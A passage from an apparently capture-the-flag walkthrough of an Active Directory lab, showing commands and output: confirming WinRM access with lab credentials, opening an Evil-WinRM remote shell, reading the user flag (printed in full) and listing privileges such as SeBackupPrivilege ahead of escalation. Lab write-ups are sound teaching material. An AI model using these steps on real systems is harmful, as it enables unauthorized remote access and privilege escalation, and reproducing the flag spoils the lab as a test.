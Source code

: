 **Result:**

```output
[+] baby.vl\Caroline.Robinson:Password123! (Pwn3d!)
```

 WinRM access confirmed, meaning we can potentially get a **remote shell**

Since the credentials `Caroline.Robinson : Password123!` worked for WinRM, we connect using **Evil-WinRM**:

```bash
evil-winrm -i 10.10.120.33 -u 'Caroline.Robinson' -p 'Password123!'
```

**Result:**

```output
Evil-WinRM shell v3.7 Info: Establishing connection to remote endpoint *Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents>
```

## Step 8: User Flag

Inside the Evil-WinRM shell, navigate to the **Desktop** folder of `Caroline.Robinson` and read the `user.txt` file:

```bash
type C:\Users\Caroline.Robinson\Desktop\user.txt
```

**Result:**

```bash
VL{b2c6150b85125d32f4b253df9540d898}
```

We successfully obtained the **user flag**.

## Step 9: Privilege Enumeration

From the Evil-WinRM shell, we enumerate the privileges of the current user:

```bash
whoami /priv
```

**Result:**

```output
SeMachineAccountPrivilege     Add workstations to domain     Enabled SeBackupPrivilege             Back up files and directories  Enabled SeRestorePrivilege            Restore files and directories  Enabled SeShutdownPrivilege           Shut down the system           Enabled SeChangeNotifyPrivilege       Bypass traverse checking       Enabled SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```


### Analysis
